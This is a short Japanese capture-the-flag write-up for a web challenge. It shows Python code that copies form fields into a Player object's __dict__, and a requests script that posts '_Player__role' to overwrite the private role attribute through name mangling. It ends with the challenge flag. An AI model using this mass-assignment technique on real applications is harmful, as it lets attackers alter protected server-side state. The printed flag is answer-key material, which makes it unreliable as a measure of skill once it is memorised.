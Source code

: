 # writeup

配布されたpythonのコードを読み込む

```
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード</summary>
```
import requests
def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
if __name__ == '__main__':
    request()
```
</details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>